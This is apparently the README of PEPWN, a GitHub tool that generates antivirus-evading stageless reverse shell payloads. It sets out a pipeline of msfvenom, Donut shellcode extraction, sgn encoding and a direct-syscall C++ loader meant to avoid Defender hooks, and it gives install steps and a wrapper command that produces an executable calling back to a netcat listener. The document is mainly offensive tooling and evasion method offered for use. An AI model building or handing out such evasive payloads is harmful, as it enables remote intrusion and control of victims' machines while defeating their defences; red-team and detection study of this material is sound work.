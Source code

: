 # PEPWN
PEPWN is a multi-chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

>The creation of the payload in PEPWN is composed of 5 steps:

- [x] It generates an exe payload using msfvenom with the given IP and PORT and saves it in the /tmp directory.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. DONUT is just a project to facilitate extracting shellcodes from executable binaries
- [x] Using the same project DONUT, the tool will apply an encoding logic on the generated payload. But the logic implemented by DONUT is going to get statically detectable because it's using a static pattern of encryption/encoding with a static key. That's why I used a second layer of encoding.
- [x] Apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/). sgn encodes shellcodes using LSFR algorithm with random key in every compilation.
- [x] Transfers it into a shellcode format of use ex: (base64, hex string, and raw data), or create exe file that triggers the shellcode using syscalls.

If the user chooses to create exe file, the tool prepares a c++ file that invokes the shellcode with using syscalls instead of dll calls. For example instead of using "VirtualAlloc" dll call, it uses "NtAllocateVirtualMemory" syscall because the defender can easilly hook dll calls and detect the call to "VirtualAlloc" and consider it as malicious action.

## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```
This command will create an EXE stageless reverse shell payload that connects back to 127.0.0.1 in port 4444. 

## Documentation

>Usage: ./wrapper.sh <OPTIONS>
 
 OPTIONS are:
 
 #-f : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 #-t : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 #-h : host/ip/domain of the listener
 
 #-p : port of the listener
 
 #-H : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## How to use

https://youtu.be/SYriAv_FPAg



